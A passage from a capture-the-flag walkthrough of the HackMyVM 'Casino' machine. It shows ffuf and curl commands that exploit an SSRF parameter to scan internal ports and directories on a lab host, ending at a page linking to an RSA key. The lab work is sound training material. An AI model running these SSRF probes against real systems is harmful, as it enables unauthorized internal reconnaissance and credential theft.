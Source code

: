 As we can see above the web server indeed made a connection to us, this proves the  existence of an SSRF vulnerability. 

## Exploitation

A common way to exploit SSRF is by enumerating internal services on the target. We can do this by creating a port list to fuzz the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ seq 1 65535 > portlist.txt  

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ ffuf -ic -c -u http://10.0.2.26/casino/explainmepls.php?learnabout=127.0.0.1:FUZZ -H "Cookie: PHPSESSID=28tsm0jqf10c7jmvdudv4pok60" -w portlist.txt  -fs 1134

80                      [Status: 200, Size: 2272, Words: 576, Lines: 98, Duration: 101ms]
6969                    [Status: 200, Size: 1973, Words: 499, Lines: 81, Duration: 72ms]
:: Progress: [65535/65535] :: Job [1/1] :: 609 req/sec :: Duration: [0:01:48] :: Errors: 0 ::
``````

Our fuzzing was successful and we uncovered a new port i.e. 6969 that listens internally on the target. When we visit the port through our proxy we will see that an HTML page is loaded. This shows that a web application listens on this port.  
![](/assets/img/posts/walthrough/hackmyvm/2024-09-24-casino/internal_server_6969.png)

This page appears to be a to-do list. Now that we have confirmed that a web application runs internally on port 6969, let's fuzz to uncover hidden directories on the web application.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ ffuf -ic -c -u http://10.0.2.26/casino/explainmepls.php?learnabout=127.0.0.1:6969/FUZZ -H "Cookie: PHPSESSID=28tsm0jqf10c7jmvdudv4pok60" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.txt,.html  -fs 1134

                        [Status: 200, Size: 1973, Words: 499, Lines: 81, Duration: 109ms]
index.html              [Status: 200, Size: 1973, Words: 499, Lines: 81, Duration: 141ms]
codebreakers            [Status: 200, Size: 1411, Words: 317, Lines: 65, Duration: 81ms]
                        [Status: 200, Size: 1973, Words: 499, Lines: 81, Duration: 77ms]
server-status           [Status: 200, Size: 35436, Words: 902, Lines: 564, Duration: 90ms]
<SNIP>
```

We can see in our result a directory called *codebreakers*. Let's visit this directory manually to see its content.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ curl -s http://10.0.2.26/casino/explainmepls.php?learnabout=127.0.0.1:6969/codebreakers -H "Cookie: PHPSESSID=28tsm0jqf10c7jmvdudv4pok60"             

<SNIP>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    Pls Shimmer, dont ******* this up again...
    <a href="./shimmer_rsa"></a>
</body>
</html>        </div>
<SNIP>                                    
```
